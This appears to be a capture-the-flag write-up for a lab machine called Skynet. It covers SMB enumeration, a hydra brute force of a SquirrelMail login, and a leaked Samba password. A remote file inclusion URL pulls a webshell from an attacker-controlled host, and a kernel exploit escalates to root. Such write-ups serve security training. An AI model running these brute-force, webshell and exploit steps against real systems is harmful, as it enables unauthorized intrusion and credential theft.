 # Skynet

The first thing that we should do is network scanning through nmap:

```bash
nmap -sV <target_ip>
```

![Alt text](../Screenshots/Skynet/nmap.png)

Now we can see that there are samba shares. Then I ran enumeration tool for linux target machine:

```bash
enum4linux -a <target_ip>
```

Moreover there is a listed user shown in the following image named `milesdyson`:
![Alt text](../Screenshots/Skynet/users.png)

It gave me following share
![Alt text](../Screenshots/Skynet/shares.png)

Simaltaneously, I started directory enumeration and found the following results:
![Alt text](../Screenshots/Skynet/dir_enum.png)

And there is an interesting directory seems `squirrelmail`. I visited it and found:

![Alt text](../Screenshots/Skynet/squirrelmail_login.png)

We can get some useful information through shares so I tried to get into them using the command:

```bash
smbclient //<target_ip>/anonymous -N
```

Now go into logs directory where you will find 3 log files:
![Alt text](../Screenshots/Skynet/logs.png)
```bash
get log1.txt
```
Using above command you can transfer there log files into your attacking machine on the path from where you ran the above smbClient command. Inside `log1.txt` there are many passwords. Useranme we already know, now we should try to crack the password:
```bash
hydra -l milesdyson -P log1.txt <target_ip> http-post-form \
"/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password" \
-V -t 16
```
We found the password:
![Alt text](../Screenshots/Skynet/password_found_hydra.png)

Now we have username and password, so let's try it on `squirrelmail` directory. Yes!! we logged in successfully as you can see:

![Alt text](../Screenshots/Skynet/squirrelmail_login_home.png)

Now click on the first mail having subject **Samba password reset** and you will find the password:

![Alt text](../Screenshots/Skynet/password.png)

Subject shows that this is the password of samba shares. So let's try this password:

```bash
smbclient //<target_ip>/milesdyson -U 'WORKGROUP\\milesdyson%)s{A&2Z=F^n_E.B`'
```

Now go to `notes` directory and there you will find `important.txt` file. Download it using `get` command. Now read this file and you will find something like that:

![Alt text](../Screenshots/Skynet/hidden_directory.png)

I suspected that this can be a hidden directory written in the 1st line. I tried and was right, but found nothing interested there. But then I again did the directory enumeration:

![Alt text](../Screenshots/Skynet/hidden_dir_enum.png)

Interesting directory found named `administrator`. I went to it and found there is cuppa cms is running.

Now the next question was helpful which is asking about remote file inclusion. I google about remote file inclusion in cuppa cms and found an exploit in [exploit-db](https://www.exploit-db.com/exploits/25971).


By reading the exploit I understood if I host a webshell in my attacker machine, host it via python server then i can exploit the remote file inclusion vulnerability in the target system using the following link:

```
http://<target_ip>/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://<attacker_ip>:<attacker_port>/shell.txt&cmd=ls
```

It showed me the result of ls command: Now I ran some commands to find the directories and all that stuff. Then I set cmd in url as `cat /home/milesdyson/user.txt` and it gave me the flag:

![Alt text](../Screenshots/Skynet/user_flag.png)

Now we need to escalate our privileges. First thing I done is I ran the linpeas on the target machine and found come known cve's. The first I tried was:

![Alt text](../Screenshots/Skynet/exploit_name.png)

I Downloaded it's exploit from exploit-db, transferred it to the target machine. Compiled it and ran it, Boom! we go the root shell:

![Alt text](../Screenshots/Skynet/root_shell.png)

Now, you can read the root flag from `/root/root.txt`.
